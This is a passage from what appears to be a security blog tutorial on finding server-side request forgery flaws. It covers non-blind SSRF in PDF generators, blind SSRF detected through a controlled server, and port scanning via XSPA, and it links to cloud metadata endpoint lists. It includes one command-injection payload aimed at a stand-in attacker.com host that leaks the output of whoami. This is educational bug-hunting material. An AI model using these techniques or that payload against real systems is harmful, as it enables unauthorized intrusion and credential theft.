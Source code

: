 List of **Cloud Metadata** fetching endpoints - [https://gist.github.com/jhaddix/78cece26c91c6263653f31ba453e273b](https://gist.github.com/jhaddix/78cece26c91c6263653f31ba453e273b)

Keep in mind that there are cases where an application blocks certain protocols, keywords so you might require bypassing some blacklists, and bypassing WAFs is a whole different topic. (I might write another blog on that one 😉) 

**Where to look for non-blind SSRFs?**

Non-blind SSRFs are common in PDF generators, HTML-to-PDF converters as we can use HTML code to create an iframe with the contents of an internally located file.

For hunting SSRFs in web applications, enumerate all the endpoints well because you might get different GET/POST parameters with URL or pathnames and they are usually the most common candidates for testing SSRF vulnerabilities.

An endpoint with GET parameters like **`?file=`** or **`?resource=`** are more likely to be vulnerable to SSRF as the parameter name suggests a potential value of file paths and URLs. Modifying the value to internally located filenames or even external hosts can help in testing SSRFs.

## Blind SSRF <a name="blind-ssrf">

Similar to non-blind SSRFs, we should look for endpoints where there is any type of URL or file path we can modify.

In blind SSRF, an application takes a resource address and tries to send a request to it. We can host a server we can control and use the address of it to try exploiting blind SSRFs.

If there's an endpoint that loads images from external URLs then we can start a local server and use the address as the **image URL** and if the application tries to load the image from our entered URL, we should see an HTTP request in the logs of the server we control.

How to exploit it? The way to exploit blind SSRF isn't clear. There are many different methods we can try to gain something impactful out of blind SSRFs.

One way to gain something meaningful: A vulnerable application can send a request to external hosts that we control and we can read the request headers inside our log files to gain more information about the internal infrastructure. With this method, internal IP addresses can be exposed and used for further exploitation.

The impact of blind SSRFs is usually dependent on our abilities to chain different issues together. Forming a great exploit chain can help gain something impactful out of a blind SSRF. The deployed infrastructure plays a huge role in it. 

There are cases where blind SSRFs are escalated to remote code executions by injecting command injection payloads in remote URLs e.g. [https://attacker.com/?param=$(whoami)](https://attacker.com/?param=$(whoami))

I found an awesome GitHub repository with precious knowledge on "Blind SSRF Chains" - [https://github.com/assetnote/blind-ssrf-chains](https://github.com/assetnote/blind-ssrf-chains)

**Cross-Site Port Attack (XSPA)**

Another great way to gain something impactful out of blind SSRFs is by an XSPA attack. It consists of entering the address of am internal hostname from the **intranet** or the web server itself so that the vulnerable application hits the target and we can determine the availability based upon the response timing or error messages.
